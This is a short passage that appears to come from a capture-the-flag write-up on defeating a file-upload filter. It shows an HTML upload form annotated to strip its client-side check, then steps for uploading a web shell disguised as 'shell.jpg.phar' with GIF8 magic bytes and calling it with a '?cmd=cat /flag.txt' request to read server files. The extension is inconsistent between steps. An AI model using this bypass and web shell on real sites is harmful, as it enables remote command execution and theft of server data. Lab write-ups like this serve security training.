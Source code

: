 ```html
    <center>
      <form action="upload.php" method="POST" enctype="multipart/form-data" id="uploadForm">
        <input type="file" name="uploadFile" id="uploadFile" onchange="checkFile(this)" accept=".jpg,.jpeg,.png"> --> rm checkfile and add php.
        <img src='/profile_images/default.jpg' class='profile-image' id='profile-image'>
        <input type="submit" value="Upload" id="submit">
      </form>
      <br>
      <h2 id="error_message"></h2>
    </center>
  </div>
</body>

</html>
```

And upload the intruder:
![Intruder](../Img/intruder.png)

And change the content of `filename="shell.jpg.phar"`. and put GIF8 and the payload and go to the `http://83.136.252.13:44787/profile_images/shell.jpg.phtml?cmd=cat%20/flag.txt`

